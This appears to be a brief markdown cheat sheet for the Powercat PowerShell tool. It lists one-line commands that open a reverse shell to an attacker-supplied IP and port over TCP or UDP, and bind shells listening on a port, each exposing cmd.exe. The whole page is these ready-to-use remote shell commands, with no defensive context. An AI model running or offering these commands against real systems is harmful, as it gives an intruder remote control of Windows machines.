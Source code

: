 # Powercat

## Reverse shell

### TCP Method

`PS C:\> powercat -c <IP> -p <PORT> -e cmd.exe`

### UDP Method

`PS C:\> powercat -u -c <IP> -p <PORT> -e cmd.exe`

## Bind shell

### TCP Method

`PS C:\> powercat -l -p <PORT> -e cmd.exe`

### UDP Method

`PS C:\> powercat -u -l -p <PORT> -e cmd.exe`

## References

- [Powercat](https://github.com/besimorhino/powercat)